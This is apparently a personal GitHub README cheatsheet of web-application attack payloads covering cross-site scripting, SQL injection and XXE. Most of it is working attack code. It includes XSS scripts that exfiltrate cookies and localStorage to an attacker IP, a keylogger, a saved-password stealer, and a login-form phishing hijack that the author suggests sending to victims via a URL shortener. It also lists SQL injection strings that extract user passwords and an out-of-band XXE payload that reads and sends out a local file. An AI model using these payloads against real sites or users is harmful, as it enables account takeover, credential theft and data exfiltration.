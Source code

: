 # Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- [SQLi](#sql-injection-sqli)
- []

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:

`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.

`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:

`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords

`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉

`phish.js`

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

### Fuzzing GET parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

### Fuzzing POST parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

### sqlmap GET parameter
`sqlmap -u "$URL/index.php?id=1"`

### sqlmap POST parameter

Copy POST request from Burp Suite into `post.req` file

`sqlmap -r post.req -p parameter`

SELECT * FROM menu WHERE name = 'Tostadas'

SELECT id, name, description, price FROM menu WHERE name = 'foo'

jim OR id between 1 and 200

Postgresql: '; select * from menu;--

Oracle:

Strings and functions

ALL: %foo') or id between 1 and 200-- %')

## Example SQLi Statements:

MSSQL error discovery: `inStock=1&name=test&sort=id&order=%foo') or id between 1 and 200-- %')`

MSSQL version/error-based: `inStock=1&name=test ') or 1/@@version=LOWER('name&sort=id&order=asc`

MSSQL 2: `inStock=CAST((SELECT+TOP+1+table_name+FROM+(Select+TOP+2+table_name+FROM+app.information_schema.tables+ORDER+BY+table_name)z+ORDER+BY+table_name+DESC)+as+varchar);&name=&sort=id&order=asc`

UNION: `SELECT id, name, description, price FROM menu WHERE id = 0 UNION ALL SELECT id, username, password, 0 from users`

## External XML Entities (XXE)

Fetch `external.dtd`

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.222/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

`external.dtd`
```
<!ENTITY % content SYSTEM "file:///root/oob.txt">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```